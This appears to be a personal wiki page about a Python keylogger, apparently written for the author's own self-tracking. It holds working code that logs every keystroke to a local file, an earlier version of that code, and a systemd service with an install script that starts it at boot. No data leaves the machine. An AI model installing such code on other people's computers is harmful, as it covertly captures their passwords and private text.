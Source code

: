``` python    
#!/bin/python3
from pynput import keyboard
import logging
import os
import socket

# log_dir = os.environ['quantized_self_dir']
log_dir = "/home/paul/Documents/Software/keylogger"
os.makedirs(log_dir)
logging.basicConfig(filename = log_dir + "/{}keyLog.txt".format(str(socket.gethostname())), 
    level=logging.DEBUG, format='%(asctime)s: %(message)s')


def get_key_name(key):
    if isinstance(key, keyboard.KeyCode):
        return key.char
    else:
        return str(key)

def on_press(key):
    key_name = get_key_name(key)
    logging.info('Key {} pressed.'.format(key_name))
    print(key_name)

def on_release(key):
    key_name = get_key_name(key)
    logging.info('Key {} released.'.format(key_name))

with keyboard.Listener(
    on_press = on_press,
    on_release = on_release) as listener:
    listener.join()
```

## Previous Tries

``` python

# keylogger.py
import keyboard # for keylogs
from datetime import datetime

# https://www.thepythoncode.com/article/write-a-keylogger-python
# https://github.com/boppreh/keyboard#keyboard.hook

class Keylogger:
    def callback_pressed(self, event):
        # print(event.name)
        # print(event.event_type)
        with open(f"./test-keylog.txt", "a") as f:
            event_string = str(datetime.now().isoformat()) + " " + event.event_type + " "+  event.name
            print(event_string, file=f)
    def start(self):
        keyboard.hook(callback=self.callback_pressed)
        keyboard.wait()
if __name__ == "__main__":
    keylogger = Keylogger()
    keylogger.start()
```

## install.sh

``` bash
#!/bin/bash
sudo cp keylogger.service /etc/systemd/system/keylogger.service
sudo systemctl enable keylogger.service
sudo systemctl start keylogger.service
```

``` service
# keylogger.service
[Unit]
Description=Keylogger Service
After=multi-user.target

[Service]
ExecStart=/usr/bin/python3 /home/dentropy/Software/keylogger/keylogger.py /home/dentropy/Software/keylogger/keylogger.out

[Install]
WantedBy=multi-user.target
```

## Links

* [wiki.software.Catagories.Keylogger](.md)

## Sources

* [https://www.tutorialspoint.com/design-a-keylogger-in-python](https://www.tutorialspoint.com/design-a-keylogger-in-python) [https://realpython.com/python-logging/](https://realpython.com/python-logging/)